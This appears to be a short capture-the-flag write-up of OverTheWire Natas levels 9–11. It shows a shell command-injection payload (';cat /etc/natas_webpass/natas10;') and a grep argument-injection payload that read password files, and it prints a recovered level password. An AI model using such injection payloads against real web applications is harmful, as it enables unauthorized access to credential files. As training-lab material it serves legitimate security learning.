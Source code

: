 check the source code

![](_v_images/20190111141020316_194550886.png)

What I need to do is inject the code and get the password in 
`/etc/natas_webpass/natas10`

use
`;cat /etc/natas_webpass/natas10;`
got the password

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## natas10

this time, it filters some of characters
![](_v_images/20190111141322793_1133453800.png)

payload:
`-E .* /etc/natas_webpass/natas11`

will execute
`grep -i -E ./* /etc/natas_webpass/natas11 dictionary.txt`

this means match all characters in natas11 and dictionary.txt

![](_v_images/20190111141508124_218531768.png)

## natas11
![](_v_images/20190111141751837_1365813093.png)
